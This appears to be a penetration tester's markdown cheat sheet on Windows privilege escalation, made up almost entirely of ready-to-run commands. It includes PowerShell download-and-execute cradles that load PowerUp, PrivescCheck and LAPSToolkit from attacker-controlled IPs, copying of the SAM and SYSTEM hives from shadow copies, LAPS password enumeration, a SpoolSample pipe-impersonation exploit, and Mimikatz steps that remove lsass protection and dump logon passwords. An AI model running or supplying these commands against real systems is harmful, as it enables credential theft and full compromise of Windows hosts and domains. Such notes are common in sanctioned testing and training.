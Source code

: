 
## PrivEsc

---

Load PowerUp

```powershell
(new-object system.net.webclient).downloadstring('http://192.168.49.236/PowerUp.ps1') | IEX
Invoke-AllChecks
```

Load PrivEscCheck https://github.com/itm4n/PrivescCheck

```powershell
(new-object system.net.webclient).downloadstring('http://192.168.49.236/PrivescCheck.ps1') | IEX
Invoke-PrivescCheck -Extended
```

Shadowcopies

```plaintext
wmic shadowcopy call create Volume='C:\'
vssadmin list shadows
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\domain.com\Downloads\sam
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\domain.com\Downloads\system
```

LAPS

```powershell
(new-object system.net.webclient).downloadstring('http://192.168.1.1/LAPSToolkit.ps1') | IEX

Get-LAPSComputers (get all computers with labs, including pw)
Find-LAPSDelegatedGroups (users that are allowed to view pws)
Get-NetGroupMember -GroupName "LAPS Password Readers"
```

MSF

```shell
use post/windows/gather/credentials/enum_laps
```

View current privs

Spoolsample local exploit

```plaintext
upload C:\\Windows\\Tasks\\met.exe
impersonate.exe \\.\pipe\test\pipe\spoolss
SpoolSample.exe srv srv/pipe/test
```

Mimikatz remove PPL and dump pws

```plaintext
privilege::debug (enable priv)
!+ (load driver)
!processprotect /process:lsass.exe /remove (remove ppl protection)
sekurlsa::logonpasswords (dump pws)
```
